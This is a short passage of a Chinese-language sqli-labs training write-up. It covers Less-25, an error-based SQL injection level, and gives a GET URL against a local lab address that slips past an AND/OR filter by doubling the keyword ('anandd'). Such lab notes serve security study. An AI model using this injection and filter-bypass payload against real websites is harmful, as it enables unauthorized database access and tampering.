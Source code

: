 
![|查看数据库中发现密码已改](file/image_eiLN5KiQuL.png "|查看数据库中发现密码已改")

### Less-25：GET - Error based - All your OR & AND belong to us -string single quote

**注入类型**

报错注入

**闭合方式**

id='\$id'

```sql
//通过双写and绕过过滤
http://192.168.65.128/sqli-labs/Less-25/?id=1' 
anandd 1=1 --+ 
```
